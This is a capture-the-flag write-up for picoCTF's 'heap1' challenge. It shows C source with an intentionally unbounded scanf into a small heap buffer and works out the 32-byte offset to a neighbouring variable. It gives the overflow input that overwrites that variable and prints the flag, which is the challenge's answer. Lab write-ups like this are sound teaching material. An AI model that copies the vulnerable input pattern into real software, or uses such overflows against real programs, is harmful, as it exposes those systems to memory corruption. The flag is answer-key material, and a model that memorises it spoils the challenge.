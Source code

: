 Description:
Can you control your overflow?Download the binary [here](https://artifacts.picoctf.net/c_tethys/32/chall).Download the source [here](https://artifacts.picoctf.net/c_tethys/32/chall.c).

Contents of `chall.c` file: 
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Lets analyse the `check_win` function: 

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) { // safe_var should be pico to get the flag
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

We can see that `safe_var` is being compared with the string `pico`. Which means, we need to modify the variable `safe_var` to `pico` to get the flag. 
We can allocate memory on the heap using `malloc`. Lets, check the `init` function to pinpoint the vulnerability. 
```c
// INPUT_DATA_SIZE, SAFE_VAR_SIZE = 5 bytes
void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE); // allocates 5 bytes on the heap
    strncpy(input_data, "pico", INPUT_DATA_SIZE); // copies pico onto the heap buffer
    safe_var = malloc(SAFE_VAR_SIZE); // allocates 5 bytes on the heap
    strncpy(safe_var, "bico", SAFE_VAR_SIZE); // copies bico onto the heap buffer
}
```

Here, if we exceed the heap buffer, while giving the input, we can overwrite the value of the `safe_var` variable. 

Now we need to find the offset between the input buffer and safe var. 

```
➜  ~/Documents/recruitment/haard_phase2/binex git:(main) ✗ nc tethys.picoctf.net 62455


Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5add894b12b0  ->   pico
+-------------+----------------+
[*]   0x5add894b12d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit
```

On running the program, we can see the heap state. `pico` is the value preassigned to our input buffer, which will be overwritten when we write to that buffer. 

Lets calculate the difference in memory location between the input buffer and `safe_var`.
```
0x5add894b12d0 - 0x5add894b12b0 = 0x20
0x20 = 32 
```

After 32 bytes, we will reach the `safe_var` variable, but we won't be able to overwrite it, so we need to send additional 4 bytes to overwrite the variable to `pico`.  

Lets do that: 
```
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_e9fbcea5}
```

As we can see, the variable has been overwritten, and according to the `check_win` function, `safe_var` is now `pico`. 

flag: `picoCTF{starting_to_get_the_hang_e9fbcea5}`

Reference: 
https://ctf101.org/binary-exploitation/what-is-the-heap/

